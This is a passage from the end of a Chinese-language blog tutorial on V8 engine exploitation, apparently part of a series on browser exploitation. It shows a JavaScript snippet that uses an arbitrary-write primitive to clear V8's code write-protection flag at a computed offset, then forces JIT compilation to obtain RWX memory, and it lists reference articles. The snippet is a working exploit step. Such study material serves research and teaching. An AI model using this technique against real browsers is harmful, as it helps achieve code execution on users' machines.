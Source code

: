 在当前的命名空间下，就可以直接用 `p &write_protect_code_memory_` 指令找到该标志位的地址，计算出它在 V8 堆上的相对偏移，我本地得到的偏移是 `0x9a08`。

- 触发 JIT 获得 RWX 内存：

接下来仅需构造：

```javascript
let exp = () => {
  function jit_func() {
    return [0.1];
  }

  limited_write(0x9a08, 0n);

  for (let i = 0; i < 0x400000; i++) {
    jit_func();
  }
}
```

此时就已经获得了 RWX 权限的 JIT 内存，再用任意读写去获得 `jit_func` 地址就能根据偏移算出 JIT 内存的位置，最终实现利用。

不过这里经过 JIT 优化的过程中也触发了 gc，弄乱了原先的内存布局，因此需要重新构造任意读写。

---

> [!todo] 
> 这篇博客作为 V8 漏洞利用的入门至此就结束了，后面会结合 GC、JIT（turbofan / maglev）、wasm、SBX 等不同知识点进行更深入的学习。

---

# References

1. [Exploiting CVE-2021-21225 and disabling W^X](https://tiszka.com/blog/CVE_2021_21225_exploit.html) . *[tiszka](https://tiszka.com/)*
2. [v8 pwn入门篇利用合集](https://blog.csdn.net/qq_61670993/article/details/135316299) . *[XiaozaYa](https://blog.csdn.net/qq_61670993)*
3. [Chrome v8 pwn](https://blog.csdn.net/qq_45323960/article/details/130124693) . *[sky123](https://sky123.blog.csdn.net/?type=blog)*
4. [V8 沙箱绕过](https://tttang.com/archive/1443/) . *[Jayl1n](https://tttang.com/user/Jayl1n)*
5. [Chaos me JavaScript V8](https://github.com/ErodedElk/Chaos-me-JavaScript-V8) . *[TokameinE](https://github.com/ErodedElk)*

